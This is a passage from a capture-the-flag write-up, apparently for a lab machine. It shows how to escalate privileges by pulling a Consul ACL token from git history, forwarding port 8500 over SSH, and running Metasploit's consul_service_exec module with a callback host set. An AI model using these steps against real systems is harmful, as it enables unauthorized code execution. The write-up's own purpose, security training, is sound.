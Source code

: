 There is an exploit on metasploit, so let's run `msfconsole` and use `exploit/multi/misc/consul_service_exec`

For the exploit to work, we need an `ACL-TOKEN`.

The token can be found at `/opt/my-app/whackywidget/put-config-in-consul.sh`, actually, it was in that file.

The my-app directory has a .git sub-directory, checking the logs, we find the commit that has the TOKEN.

![](7.png)

The second thing we need to exploit the service is forward port 8500, to do that we use ssh tunneling with the following command:

```bash
ssh -L 8500:localhost:8500 developer@10.10.11.183
```

Now back the metasploit, we set the required options and run the exploit.

```terminal
[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> set lhost tun0
lhost => 10.10.17.90
[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> set rhosts 127.0.0.1
[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5
acl_token => bb03b43b-1d81-d62b-24b5-39540ee469b5
```

![](8.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
